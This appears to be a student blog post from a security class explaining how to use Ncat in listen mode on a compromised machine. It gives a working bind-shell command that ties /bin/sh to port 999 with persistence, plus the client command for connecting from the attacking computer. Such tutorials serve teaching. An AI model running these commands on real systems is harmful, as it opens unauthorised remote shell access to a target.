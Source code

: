 ```yaml
---
layout: post
title:  "Blog 6: NCAT"
date:   2021-04-09 01:51:40 -0700
categories: Blog Class
---
```


`Ncat` has been used as a Telnet replacement up until now. Instead of using Ncat to connect to other computers, we can also set up Ncat to listen mode. Listen mode allows us to install Ncat on a compromised machine, run it on any port of our choosing, and then connect to it with another copy of Ncat on our attacking computer. We can start Ncat in listen mode and then bind the bash shell to it, allowing us to pass commands to the target host. Also, we can freely disconnect and reconnect to the listening Ncat on the target system.

The command below will start Ncat in listen mode. The -k option forces it to stay in listen mode even when a client disconnects (this is an important option). The -p option selects the port and the -e binds the command shell to the selected port.

    ncat -l -p 999 -k -e /bin/sh

To see if we can connect to the listener, we can enter the following command:
        
        ncat skillsetlocal.com 999
        
You have command line access to the target. You can try entering an OS command to verify (you won't see any kind of prompt, just enter the command in the new line):

    whoami
